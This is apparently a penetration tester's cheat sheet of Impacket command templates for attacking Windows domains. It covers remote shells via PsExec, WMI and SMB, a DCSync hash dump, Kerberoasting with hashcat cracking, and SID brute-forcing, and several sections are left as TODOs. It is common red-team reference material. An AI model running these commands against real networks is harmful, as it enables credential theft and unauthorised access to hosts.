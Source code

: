 Impacket is a suite of tools that is massively useful when compromising Windows hosts.

# Impacket-PSExec
```shell
impacket-psexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via PsExec (if user has local administrator rights). Requires transferring a binary to the target machine.
```

# Impacket-WMIExec
```shell
impacket-wmiexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via Windows Management Instrumentation. 
```
WMIExec is marginally more stealthy than PSExec but it has WMI as an obvious prerequisite. 

# Impacket-SMBExec
```shell
impacket-smbexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via SMB named pipes without transferring a binary.
```
# Impacket-SecretsDump
```shell
impacket-secretsdump -outputfile <hashes outfile> -just-dc <domain>/<user>@<DC_IP> # Perform DCSync attack against a domain controller with Domain Admin credentials or other user creds with DCSync rights. 
```

# Impacket-SMBServer
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

# Impacket-GetUserSPNs
```shell
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> # List SPN accounts
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request # Request all TGTs. 
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request-user <SPN> -outputfile out-tgt # Request one TGT and save
```
The `out-tgt` can be cracked with hashcat mode 13100. 

# Impacket-raiseChild
TODO: Write this

# Impacket-ticketer
TODO: Write this

# Impacket-lookupsid
```shell
impacket-lookupsid -dc-ip <DC_IP> <domain>/<user> # Bruteforce user SIDs with RPC
```

# Impacket-mssqlclient
TODO: Write this
